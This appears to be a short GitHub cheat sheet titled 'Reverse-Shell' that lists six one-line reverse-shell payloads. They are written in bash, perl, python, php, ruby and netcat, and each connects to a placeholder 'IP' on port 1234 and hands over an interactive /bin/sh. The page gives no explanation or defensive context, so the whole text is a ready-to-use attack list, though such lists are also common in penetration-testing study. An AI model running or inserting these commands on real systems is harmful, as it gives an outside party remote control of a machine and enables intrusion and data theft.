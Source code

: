 # Reverse-Shell

bash -i >& /dev/tcp/IP/1234 0>&1

perl -e 'use Socket;$i="IP";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'

python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

php -r '$sock=fsockopen("IP",1234);exec("/bin/sh -i <&3 >&3 2>&3");'

ruby -rsocket -e'f=TCPSocket.open("IP",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'

nc -e /bin/sh IP 1234
